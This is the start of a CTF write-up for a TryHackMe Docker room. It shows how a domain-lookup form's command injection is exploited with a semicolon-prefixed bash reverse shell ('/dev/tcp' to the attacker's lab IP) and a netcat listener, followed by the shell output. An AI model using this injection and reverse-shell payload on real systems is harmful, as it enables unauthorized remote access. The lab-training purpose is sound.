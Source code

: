 # Introduction

We were fortunate enough to be visited by rushisec and stealthcopter - alumni friends from my degree course - to give an overview of Docker, plus a Docker-based CTF for us to participate in. I found it to be a really enjoyable challenge, and quite interesting being based around container escapes.

Challenge: USW Docker Event

Creators: rushisec, stealthcopter

Platform: Try Hack Me

URL: [http://tryhackme.com/jr/uswdockerevent](http://tryhackme.com/jr/uswdockerevent)

After accessing the room on Try Hack Me at the above URL and clicking “Start Machine”, once the machine has loaded, you are presented with the IP address.

Navigating to the provided IP address in the attacking machine’s browser presents you with a website which allows you to check for available domains. This feature is quite interesting. How does it check for domains? Where does it pass the inputted data?

Starting the input with a semi-colon `;` and adding the bash command `ls` confirms that this feature is using bash to perform domain lookups. This can be exploited to provide us with extra information such as the /etc/passwd file, or to execute a reverse shell on the webserver.

# Web App Shell & Flag 1

> What is the value found in /flag1.txt on the initial "webapp" container?
> 

A netcat listener was created on the attacking machine:

```bash
root@ip-10-10-223-208:~# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
```

A [bash reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) was added to the input.

`;bash -c 'bash -i >& /dev/tcp/10.10.223.208/443 0>&1'`

When the command is submitted on the website, the attacker’s netcat listener receives the connection and opens a shell:

```bash
Connection from 10.10.209.31 35464 received!
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@webapp:/app#
```

Typing `ls` to check the files in the current directory for the flag does not provide.

```bash
/app# ls
ls
__pycache__
app.py
db.py
requirements.txt
static
templates
root@webapp:/app# cd ..
cd ..
root@webapp:/# ls
ls
app
bin
```